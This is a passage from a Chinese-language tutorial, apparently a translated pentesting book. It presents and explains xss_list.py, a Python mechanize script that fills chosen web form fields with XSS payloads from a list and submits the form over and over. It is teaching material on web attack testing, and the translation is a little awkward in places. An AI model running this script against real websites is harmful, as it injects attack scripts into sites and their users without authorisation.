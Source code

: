 ```py
  print form
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)

br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  for i in xrange(0, len(list_a)):
    att=list_a[i]
    br.form[att] = s['xss'][p]
  for i in xrange(0, len(list_n)):
    non=list_n[i]
    br.form[non] = 'aaaaaaa'

  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```

前面的代码能够攻击多个字段或单个字段。在这段代码中，我们使用了两个列表，`list_a`和`list_n`。`list_a`列表包含要发送 XSS 漏洞攻击的字段名，`list_n`列表包含不想发送 XSS 漏洞攻击的字段名。

现在我们来看节目。如果您了解`xss.py`计划，您会注意到我们对`xss.py`进行了修改，创建了`xss_list.py`：

```py
list_a =[]
list_n = []
field = int(raw_input('Enter the number of field "not readonly" '))
for i in xrange(0,field):
  na = raw_input('Enter the field name, "not readonly" ')
  ch = raw_input("Do you attack on this field? press Y ")
  if (ch=="Y" or ch == "y"):
    list_a.append(na)
  else :
    list_n.append(na)
```

我已经解释了`list_a[]`和`list_n[]`的意义。变量字段要求用户输入表单中非只读的表单字段总数。`for i in xrange(0,field):`语句定义了 for 循环从 0 到字段，即运行字段时间，表示表单中存在的字段总数。`na`变量要求用户输入字段名，`ch`变量要求用户输入`Do you attack on this field`？这意味着，如果您按*y*或*y*，输入的字段将转到`list_a`；否则会转到`list_n`：

